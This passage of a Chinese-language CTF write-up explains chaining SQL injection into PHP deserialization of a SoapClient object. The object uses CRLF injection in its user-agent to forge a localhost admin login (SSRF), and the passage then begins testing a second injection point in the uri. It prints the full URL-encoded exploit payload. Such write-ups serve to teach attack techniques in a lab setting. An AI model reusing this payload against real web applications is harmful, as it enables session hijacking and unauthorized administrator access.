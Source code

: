 这里的`PHPSESSID`换成一个还没有登录过的session，验证码换成自己的，注入这条数据之后：

![](./img/4.png)

```
signature=username`,`O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A39%3A%22http%3A%2F%2F127.0.0.1%2Findex.php%3Faction%3Dlogin%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A174%3A%22test%0D%0ACookie%3A+PHPSESSID%3D08jl0ttu86a5jgda8cnhjtvq32%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+45%0D%0A%0D%0Ausername%3Dadmin%26password%3Dnu1ladmin%26code%3D164760%0D%0A%0D%0A%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D`)#&mood=0
```



然后再用刚才的那个`session`访问一下,访问一下首页，就拿到管理员权限了。

#### 利用uri这个CRLF注入点

根据刚才分析，知道uri这个注入点没办法伪造`Content-Type` 但是难道就不能利用了么？ 

（这次跟着@magicBlue学了一招）看请求，注意到一个细节`Connection: Keep-Alive` ,说明这是一个长http连接，有什么用呢，来测试一下：

写一个测试代码如下：

```php
//2.php 
<?php 
    var_dump($_GET);
    var_dump($_POST);
```

做下面的测试：

![](./img/5.png)
